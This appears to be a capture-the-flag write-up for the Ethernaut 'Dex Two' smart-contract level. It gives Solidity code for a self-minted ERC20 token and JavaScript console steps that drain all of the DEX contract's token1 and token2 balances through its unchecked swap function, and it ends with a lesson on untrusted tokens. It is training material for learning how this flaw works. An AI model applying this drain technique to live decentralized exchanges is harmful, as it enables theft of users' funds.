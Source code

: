 # 23. Dex Two
<sup>Difficulty 4/10</sup>

This level will ask you to break `DexTwo`, a subtlely modified `Dex` contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level.

You will still start with 10 tokens of `token1` and 10 of `token2`. The DEX contract still starts with 100 of each token.

Things that might help:

- How has the `swap` method been modified?
- Could you use a custom token contract in your attack?

## Solution

From the previous challenge ([22. Dex](./22_dex.md)) the `swap` function has been modified removing the check on the `token`:

```
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

It is no loger required to `swap` only `token1` and `token2`. Also, the function `getSwapPrice` remain with a different name: `getSwapAmount`.

```solidity
function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
}
```

This time we need to drain all balances of `token1` and `token2`, but now we can use an own controlled token!
Create and deploy our token:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://raw.githubusercontent.com/OpenZeppelin/openzeppelin-contracts/v3.4.0/contracts/token/ERC20/ERC20.sol";

contract OurToken is ERC20 {
    constructor() public ERC20("OurToken", "OTK") {
        _mint(msg.sender, 1000);
    }
}
```

Do it twice. Then send `1 OTK` to the contract. To achieve the current state:

```javascript
const balance = async (t, w) => (await contract.balanceOf(t, w)).toString()
const exchange = async (f, t, a) => (await contract.getSwapAmount(f, t, a)).toString()

// tk1 = contract.token1, tk2 = contract.token2, ot1 = ourToken1, ot2 = ourToken2

// Check player balance
await balance(tk1, player)
// -> '10'
await balance(tk2, player)
// -> '10'
await balance(ot1, player)
// -> '999'                            We sent one to contract earlier
await balance(ot2, player)
// -> '999'                            We sent one to contract earlier

// Check contract balance
await balance(tk1, contract.address)
// -> '100'
await balance(tk2, contract.address)
// -> '100'
await balance(ot1, contract.address)
// -> '1'                              We sent one to contract earlier
await balance(ot2, contract.address)
// -> '1'                              We sent one to contract earlier

// Check exchange rate
await exchange(ot1, tk1, 1)
// -> '100'
await exchange(ot2, tk2, 1)
// -> '100'
```

We can do it. But before the actual swap we have to approve the transaction. Get back the earlier script and approve everything or, deploy an ERC20 Token to the tokens address and manually approve the transactions :D

```javascript
// Swap!
await contract.swap(ot1, tk1, 1)
await contract.swap(ot2, tk2, 1)

// Check results
await balance(tk1, player)
// -> '110'
await balance(tk2, player)
// -> '110'
await balance(ot1, player)
// -> '998'
await balance(ot2, player)
// -> '998'
await balance(tk1, contract.address)
// -> '0'
await balance(tk2, contract.address)
// -> '0'
await balance(ot1, contract.address)
// -> '2'
await balance(ot2, contract.address)
// -> '2'
```

We did it!

```
ˁ(⦿ᴥ⦿)ˀ Well done, You have completed this level!!!
```

## OZ Corner

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See [Missing return value bug - At least 130 tokens affected](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca).

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.
